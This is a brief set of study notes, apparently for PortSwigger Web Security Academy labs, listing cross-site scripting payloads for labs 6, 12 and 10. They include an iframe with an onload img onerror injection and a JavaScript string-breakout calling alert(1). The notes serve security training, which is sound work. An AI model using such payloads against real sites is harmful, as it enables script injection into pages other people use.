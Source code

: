 Lab 6: Payload `<iframe src="https://0a51003e030f3021827b9f1200680039.web-security-academy.net/#" onload="this.src+='<img src=0 onerror=print()>'"></iframe>`

Lab 12: 12345\"}; alert(1);//

Lab 10: Inject html tag để gọi được gọi được `alert` để chứng minh cho việc web dính XSS nâng cao hơn xíu
